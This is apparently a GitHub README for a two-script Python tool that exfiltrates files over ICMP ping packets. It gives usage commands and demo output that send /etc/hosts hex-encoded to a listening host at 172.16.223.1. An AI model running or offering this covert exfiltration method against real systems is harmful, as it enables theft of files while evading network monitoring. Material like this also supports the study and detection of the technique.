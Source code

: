 # ICMP-Data-Exfiltration

This program is used to send data over the network inside "ICMP Packets", with the help of the "PING" command.
You can send any type of file over the network between two hosts simply by pinging the destination host.


## Examples of How To Use
The program has two files.

First one "icmp_exfiltration.py", this file we will use as a receiver by running this file we will automatically
start listening for any icmp packet that are coming towards our host machine, once we start receiving packets
this file will automatically decode the message and print it to the display.

Second file "icmp_sendData.py", with the help of this file we will send the file we want to another host where it is
listening for our communication, we just need to provide the destination "IP-Address" and "FILE NAME" and the script will automatically 
convert our data into "HEXADECIMAL" and send it to its destination.

### Help Menu
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py

[!] Usage icmp_exfiltration.py <Interface-Name>                               
```

#### icmp_sendData.py
```bash
❯ sudo python3 icmp_sendData.py

[!] Usage icmp_sendData.py <IP-Address> <File-Name>                            
```

### Usage
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py vmnet8

127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters                         
```
First we will run "icmp_exfiltration.py" file by specifying on which interface we want to listen.

#### icmp_sendData.py
```bash
❯ python3 icmp_sendData.py 172.16.223.1 /etc/hosts

[+] Trying to send file...

[+] File sent successfully.                        
```
Then from another host we will run the "icmp_sendData.py" and the destination "IP-Address" and "FILE NAME"
and it will automatically send  the file to another host terminal.

